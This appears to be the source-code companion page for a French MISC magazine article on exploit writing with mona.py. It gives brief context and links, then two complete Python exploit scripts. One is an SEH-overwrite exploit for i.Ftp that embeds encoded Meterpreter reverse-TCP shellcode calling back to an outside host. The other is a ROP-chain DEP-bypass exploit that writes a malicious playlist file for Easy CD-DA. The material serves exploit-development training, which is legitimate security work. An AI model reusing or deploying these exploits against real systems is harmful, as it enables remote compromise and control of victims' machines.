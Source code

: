 MISC numéro 77 - Janvier 2015
=======

### Ramonage de vulns avec mona.py

####Synopsis
Défini par Peter Van Eeckhoutte, son auteur, comme la boite à outils du développement d'exploit en environnement win32, mona.py [1] est un plugin qui fonctionne avec Immunity Debugger et WinDBG. Simple d'utilisation, il a l'énorme avantage de réunir les fonctionnalités de bon nombre d'autres outils tout en s'intégrant dans votre débogueur.
Plutôt que de présenter toutes ses possibilités unes par unes, nous allons à travers des exemples pratiques montrer comment il permet de gagner du temps lors de l'écriture d'exploits en environnement Windows.

#### Remerciements
Merci à Alexandre, André (@andremoulu), Fred (@FredzyPadzy), Inti (@SalasRossenbach) Jérôme (JLeonard), l'équipe MISC (@MISCRedac), Mohamed, Peter (@corelanc0d3r), Saâd (@_saadk) et Thomas pour la relecture et l'inspiration.

#### Les liens
-[1] https://github.com/corelan/mona
-[2] https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
-[3] https://www.corelan.beHYPERLINK "https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/"/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
-[4] https://www.corelan.be/index.HYPERLINK "https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/"php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
-[5] https://www.hackinparis.com/slides/hip2k11/04-ProjectQuebec.pdf
-[6] https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/
-[7] http://www.vmware.com/fr/products/player
-[8] https://github.com/corelan/windbglib
-[9] http://www.exploit-db.com/exploits/35177
-[10] http://www.exploit-db.com/exploits/31643
-[11] https://community.rapid7.com/community/metasploit/blog/2014/12/09/good-bye-msfpayload-and-msfencode
-[12] https://github.com/MISCMag/MISC-79
-[13] https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/

#### L'exploit iftp.py (chapitre 4.3)
```
import os,struct,sys
   
outputfile = 'C:\Program Files\Memecode\i.Ftp\Schedule.xml'
size = 20000
offset_to_nseh = 592

junk1 = "A" * offset_to_nseh
nseh = "\xeb\x06\xCC\xCC" # "\xeb\x06" = jmp $+8 = jump to stackadjust
seh = struct.pack('<L',0x10011887) #0x10011887 : pop ecx # pop ecx # ret 0x08 |  {PAGE_EXECUTE_READ} [Lgi.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Memecode\i.Ftp\Lgi.dll)
stackadjust= "\x81\xc4\x24\xfa\xff\xff"	# add esp,-1500
# ./msfvenom -p windows/meterpreter/reverse_tcp exitfunc=thread lhost=1.1.1.5 R -a x86 --platform windows -b '\x00\x0a\x0d\x20\x22\x3c\x3e' -f python
# Found 22 compatible encoders
# Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
# x86/shikata_ga_nai succeeded with size 308 (iteration=0)
buf =  ""
buf += "\xb8\xca\xa4\x97\xb2\xda\xd7\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x47\x83\xc2\x04\x31\x42\x0f\x03\x42\xc5\x46"
buf += "\x62\x4e\x31\x04\x8d\xaf\xc1\x69\x07\x4a\xf0\xa9\x73"
buf += "\x1e\xa2\x19\xf7\x72\x4e\xd1\x55\x67\xc5\x97\x71\x88"
buf += "\x6e\x1d\xa4\xa7\x6f\x0e\x94\xa6\xf3\x4d\xc9\x08\xca"
buf += "\x9d\x1c\x48\x0b\xc3\xed\x18\xc4\x8f\x40\x8d\x61\xc5"
buf += "\x58\x26\x39\xcb\xd8\xdb\x89\xea\xc9\x4d\x82\xb4\xc9"
buf += "\x6c\x47\xcd\x43\x77\x84\xe8\x1a\x0c\x7e\x86\x9c\xc4"
buf += "\x4f\x67\x32\x29\x60\x9a\x4a\x6d\x46\x45\x39\x87\xb5"
buf += "\xf8\x3a\x5c\xc4\x26\xce\x47\x6e\xac\x68\xac\x8f\x61"
buf += "\xee\x27\x83\xce\x64\x6f\x87\xd1\xa9\x1b\xb3\x5a\x4c"
buf += "\xcc\x32\x18\x6b\xc8\x1f\xfa\x12\x49\xc5\xad\x2b\x89"
buf += "\xa6\x12\x8e\xc1\x4a\x46\xa3\x8b\x02\xab\x8e\x33\xd2"
buf += "\xa3\x99\x40\xe0\x6c\x32\xcf\x48\xe4\x9c\x08\xaf\xdf"
buf += "\x59\x86\x4e\xe0\x99\x8e\x94\xb4\xc9\xb8\x3d\xb5\x81"
buf += "\x38\xc2\x60\x05\x69\x6c\xdb\xe6\xd9\xcc\x8b\x8e\x33"
buf += "\xc3\xf4\xaf\x3b\x0e\x9d\x5a\xc1\xd8\xa3\x9b\xc8\x1d"
buf += "\xcc\x99\xca\x0c\x50\x17\x2c\x44\x78\x71\xe6\xf0\xe1"
buf += "\xd8\x7c\x61\xed\xf6\xf8\xa1\x65\xf5\xfd\x6f\x8e\x70"
buf += "\xee\x07\x7e\xcf\x4c\x81\x81\xe5\xfb\x2d\x14\x02\xaa"
buf += "\x7a\x80\x08\x8b\x4c\x0f\xf2\xfe\xc7\x86\x66\x41\xbf"
buf += "\xe6\x66\x41\x3f\xb1\xec\x41\x57\x65\x55\x12\x42\x6a"
buf += "\x40\x06\xdf\xff\x6b\x7f\x8c\xa8\x03\x7d\xeb\x9f\x8b"
buf += "\x7e\xde\x21\xf7\xa8\x26\x54\x19\x69"
junk2 = "C" * (size-len(junk1+nseh+seh+stackadjust+buf))
poc = junk1 + nseh + seh + stackadjust + buf + junk2
header = "\x3c\x3f\x78\x6d\x6c\x20\x76\x65\x72\x73\x69\x6f\x6e\x3d\x22\x31\x2e\x30\x22\x20\x65\x6e\x63\x6f\x64\x69\x6e\x67\x3d\x22"
header += "\x55\x54\x46\x2d\x38\x22\x20\x3f\x3e\x0a\x3c\x53\x63\x68\x65\x64\x75\x6c\x65\x3e\x0a\x09\x3c\x45\x76\x65\x6e\x74\x20\x55"
header += "\x72\x6c\x3d\x22\x22\x20\x54\x69\x6d\x65\x3d\x22\x68\x74\x74\x70\x3a\x2f\x2f\x0a"
footer = "\x22\x20\x46\x6f\x6c\x64\x65\x72\x3d\x22\x22\x20\x2f\x3e\x0a\x3c\x2f\x53\x63\x68\x65\x64\x75\x6c\x65\x3e\x0a"
buffer =  header + poc + footer
print "[+] Creating %s" % outputfile
f = open(outputfile,'wb')
print "[+] Writing %d bytes to file" % len(buffer)
f.write(buffer)
print "[+] Done"
f.close()
```

#### L'exploit easy.py (chapitre 4.4)
```
import os,struct

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x10087fe1,  # POP ECX # RETN [audconv.dll]
      0x0042a0e0,  # ptr to &VirtualProtect() [IAT easycdda.exe]
      0x10041e69,  # MOV EAX,DWORD PTR DS:[ECX] # RETN [audconv.dll]
      0x10035802,  # XCHG EAX,ESI # RETN [audconv.dll]
      0x1000327e,  # POP EBP # RETN [audconv.dll]
      0x00403054,  # & push esp # ret 0x08 [easycdda.exe]
      0x0041c160,  # POP EBX # RETN [easycdda.exe]
      0x00000201,  # 0x00000201-> ebx
      0x1007f883,  # POP EDX # RETN [audconv.dll]
      0x00000040,  # 0x00000040-> edx
      0x10090089,  # POP ECX # RETN [audconv.dll]
      0x00434ce9,  # &Writable location [easycdda.exe]
      0x1005d353,  # POP EDI # RETN [audconv.dll]
      0x100378e6,  # RETN (ROP NOP) [audconv.dll]
      0x1007f18a,  # POP EAX # RETN [audconv.dll]
      0x90909090,  # nop
      0x00429692,  # PUSHAD # INC EBX # ADD CL,CH # RETN [easycdda.exe]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

offset_nseh = 1108	#SEH record (nseh field) at 0x0012f4f4 overwritten with normal pattern : 0x6c42396b (offset 1108)
junk1 = "A" * offset_nseh
nseh = "\x90" * 4
seh = struct.pack('L',0x1001b19b)  		# ADD ESP,0C10 # RETN 0x04 [audconv.dll]
ropnops = struct.pack('L',0x100013ac)  	# RET [audconv.dll]
buf =  ""
buf += "\x81\xc4\x24\xfa\xff\xff"	# add esp,-1500
buf += "\xdb\xc8\xd9\x74\x24\xf4\xb8\x20\xa5\xd2\xfe\x5e\x33"
buf += "\xc9\xb1\x47\x83\xee\xfc\x31\x46\x14\x03\x46\x34\x47"
buf += "\x27\x02\xdc\x05\xc8\xfb\x1c\x6a\x40\x1e\x2d\xaa\x36"
buf += "\x6a\x1d\x1a\x3c\x3e\x91\xd1\x10\xab\x22\x97\xbc\xdc"
buf += "\x83\x12\x9b\xd3\x14\x0e\xdf\x72\x96\x4d\x0c\x55\xa7"
buf += "\x9d\x41\x94\xe0\xc0\xa8\xc4\xb9\x8f\x1f\xf9\xce\xda"
buf += "\xa3\x72\x9c\xcb\xa3\x67\x54\xed\x82\x39\xef\xb4\x04"
buf += "\xbb\x3c\xcd\x0c\xa3\x21\xe8\xc7\x58\x91\x86\xd9\x88"
buf += "\xe8\x67\x75\xf5\xc5\x95\x87\x31\xe1\x45\xf2\x4b\x12"
buf += "\xfb\x05\x88\x69\x27\x83\x0b\xc9\xac\x33\xf0\xe8\x61"
buf += "\xa5\x73\xe6\xce\xa1\xdc\xea\xd1\x66\x57\x16\x59\x89"
buf += "\xb8\x9f\x19\xae\x1c\xc4\xfa\xcf\x05\xa0\xad\xf0\x56"
buf += "\x0b\x11\x55\x1c\xa1\x46\xe4\x7f\xad\xab\xc5\x7f\x2d"
buf += "\xa4\x5e\xf3\x1f\x6b\xf5\x9b\x13\xe4\xd3\x5c\x54\xdf"
buf += "\xa4\xf3\xab\xe0\xd4\xda\x6f\xb4\x84\x74\x46\xb5\x4e"
buf += "\x85\x67\x60\xc0\xd5\xc7\xdb\xa1\x85\xa7\x8b\x49\xcc"
buf += "\x28\xf3\x6a\xef\xe3\x9c\x01\x15\x63\xa2\xd4\x14\x76"
buf += "\xcc\xd4\x16\x69\x50\x50\xf0\xe3\x78\x34\xaa\x9b\xe1"
buf += "\x1d\x20\x3a\xed\x8b\x4c\x7c\x65\x38\xb0\x32\x8e\x35"
buf += "\xa2\xa2\x7e\x00\x98\x64\x80\xbe\xb7\x88\x14\x45\x1e"
buf += "\xdf\x80\x47\x47\x17\x0f\xb7\xa2\x2c\x86\x2d\x0d\x5a"
buf += "\xe7\xa1\x8d\x9a\xb1\xab\x8d\xf2\x65\x88\xdd\xe7\x69"
buf += "\x05\x72\xb4\xff\xa6\x23\x69\x57\xcf\xc9\x54\x9f\x50"
buf += "\x31\xb3\x21\xac\xe4\xfd\x57\xdc\x34"
junk2 = "B" * 10000

buffer = junk1 + nseh + seh + ropnops * 23 + rop_chain + buf + junk2

print "[+] Length of total buffer: %s" % len(buffer)
print "[+] Writing sploit in c:\\temp\\ecr.pls"
file = open('c:\\temp\\ecr.pls','wb')
file.write(buffer)
file.close()
```

